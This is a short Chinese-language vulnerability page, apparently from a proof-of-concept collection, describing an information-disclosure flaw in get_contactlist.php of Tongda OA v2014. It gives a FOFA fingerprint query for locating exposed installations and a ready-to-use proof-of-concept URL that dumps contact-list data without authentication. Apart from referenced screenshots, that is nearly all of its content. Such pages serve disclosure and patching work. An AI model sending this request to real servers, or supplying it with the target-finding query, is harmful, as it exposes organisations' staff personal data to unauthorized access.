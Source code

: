 # 通达OA v2014 get_contactlist.php 敏感信息泄漏漏洞

## 漏洞描述

通达OA v2014 get_contactlist.php文件存在信息泄漏漏洞，攻击者通过漏洞可以获取敏感信息，进一步攻击

## 漏洞影响

<a-checkbox checked>通达OA v2014</a-checkbox></br>

## FOFA

<a-checkbox checked>app="TDXK-通达OA" </a-checkbox></br>

## 漏洞复现

版本信息

![img](../../../.vuepress/public/img/1645975969411-bebd5aae-61d9-427d-bde9-bc31c1375ec3.png)

验证POC

```javascript
/mobile/inc/get_contactlist.php?P=1&KWORD=%25&isuser_info=3
```

![img](../../../.vuepress/public/img/1645975996620-255bce78-f9e5-4542-a2cc-4ba7b35fb50e.png)